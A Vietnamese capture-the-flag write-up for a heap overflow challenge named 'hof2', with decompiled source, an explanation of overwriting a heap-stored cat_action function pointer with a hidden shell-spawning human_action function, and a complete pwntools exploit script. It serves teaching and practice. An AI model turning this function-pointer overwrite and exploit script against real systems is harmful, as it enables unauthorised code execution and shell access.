

# HOF (chuyển hướng luồng thực thi)
- Thay vì thay đổi `rip` như `BOF` thì ta lại OW 1 đoạn địa chỉ mà chương trình sẽ thực hiện đã được lưu vào `heap` , bằng cách đó ta có thể điều kiển chương trình như ý mún ó.
## Tự Hành.
### 1. Source.
```

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+0h] [rbp-10h] BYREF
  unsigned int v5; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v6; // [rsp+8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v4 = -1;
  v5 = -1;
  init(argc, argv, envp);
  do
  {
    menu();
    __isoc99_scanf("%d", &v4);
    getchar();
    if ( v4 == 4 )
      continue;
    if ( v4 > 4 )
    {
LABEL_17:
      puts("Invalid choice");
      continue;
    }
    switch ( v4 )
    {
      case 3:
        printf("Index: ");
        __isoc99_scanf("%d", &v5);
        if ( v5 <= 3 && animal_list[v5] )
          animal_say(v5);
        else
          puts("Invalid index");
        break;
      case 1:
        if ( count > 3 )
          goto LABEL_9;
        add_cat();
        break;
      case 2:
        if ( count > 3 )
        {
LABEL_9:
          puts("Maximum 4 pets only!");
          break;
        }
        add_dog();
        break;
      default:
        goto LABEL_17;
    }
  }
  while ( v4 != 5 );
  return 0;
}
```
### 2. Hướng Giải.
- Cơ bản chương trình sẽ cho ta 4 option với 2 option là `add_cat` và `add_dog` , 1 option là `animal say`, cuối cùng là `exit`. Tối đa được add vào là 4 và hàm `animal say` ta sẽ nhập `index` tương ứng với vị trí animal mà bạn đã add và sẽ gọi lên những `action` của từng loại mà bạn đã add.


- Ta có 1 lỗi `BOF` ở `%s` và khi gọi hàm `animal_say` nó sẽ gọi lên hàm `action` tương ứng, và hãy xem cái này:

- Vào hàm system , bấm *X* thì chương trình lại dấu đi `Human_action` tạo shell cho chúng ta :))))) .
- Thế thì ta chỉ cần làm đơn giản là `OW` hàm `cat_action` được lưu trên `heap` thành hàm `Human_action` kế tiếp ta chọn `option Animal_say` nó sẽ thực thì hàm `Human_action` và thế là ta thu được shell, cùng vào GDB debug xem nhóe :>> .


- Khi vào hàm `add_cat` thực thi các hàm `malloc` , check `heap chunks` thì ta có thể thấy ảnh sau có 1 địa chỉ được lưu vào `heap` các bạn nên ( *LƯU Ý: khi mà thấy 1 đoạn địa chỉ bất kì trên heap mà bạn có thể `HOF` hãy tận dụng điều đó để exploit chương trình* ) , thế nên ta chỉ cần tính offset `OW` `cat_action == Human_action` là xong.
- *Offset:* 

- Vì ta chỉ add 1 con `cat` duy nhất nên index ở đây bất đầu từ 0 ( giống mảng trong c++ )
- Chạy `tools` thì ta thu được shell.

### 3. Script.
```
#!/usr/bin/python3

from pwn import *

exe = ELF('hof2', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*main+98
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('0', 0)
else:
        p = process(exe.path)

GDB()
sla(b"> ", b'1')
payload = b'a'*0x208 + p64(exe.sym['human_action'])
sla(b"Name of your new cat: ", payload)
sla(b"Its age: ", b'2')
sla(b"> ", b'3')
sla(b"Index: ", b'0')

p.interactive()
```